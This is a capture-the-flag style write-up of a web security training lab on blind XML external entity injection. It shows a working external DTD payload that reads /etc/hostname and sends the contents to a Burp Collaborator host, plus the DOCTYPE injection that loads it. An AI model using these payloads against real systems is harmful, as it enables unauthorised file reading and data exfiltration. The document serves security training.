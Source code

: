 # Lab: Exploiting blind XXE to exfiltrate data using a malicious external DTD

>This lab has a "Check stock" feature that parses XML input but does not display the result.

>To solve the lab, exfiltrate the contents of the /etc/hostname file.

### Observations
My burp collaborator instance: `bapx36nws7mgxxnh9d3bcbqu2l8cw1.burpcollaborator.net`

There are 2 major things that we need to accomplish with our injected XML
- Read contents of /etc/hostname (`file:///etc/hostname`)
- Make a request to `/exploit` and exfil the contents above

My first attempt at creating a payload resulted in this, which did not work:

`<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://" + file://etc/hostname +
"exploit-ac4e1f3c1f918ea0c058632601a7004d.web-security-academy.net/exploit"> %xxe; ]`

### Next steps
The lab title also says that we will have an external DTD, which leads me to believe that we will use the built-in exploit server for this. Enter the following for the exploit body (ignore the set of `"""` and put the url to your own collaborator instance):

"""

<!ENTITY % file SYSTEM "file:///etc/hostname">

<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://bapx36nws7mgxxnh9d3bcbqu2l8cw1.burpcollaborator.net/x=%file;'>">

%eval;

%exfil;

"""

The first line reads the data from `/etc/hostname`, while the second line sends a GET request to our collaborator instance, requesting the file `x`, which is equal to the contents of `/etc/hostname`

### Solution
Now that we have our external dtd finished and located at `/exploit`, we can call it from our request to `POST /product/stock`... Add the following xml to the request to call this external dtd


`<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-ac4e1f3c1f918ea0c058632601a7004d.web-security-academy.net/exploit"> %xxe;]`


You will see some requests in your burp collaborator instance, dig into the HTTP request and click the "Request to Collaborator" tab. We can see the following `GET /x=e91f6f9ddb94`

The value of x is the contents of `/etc/hostname` as we defined here `/x=%file`

Lab solved!
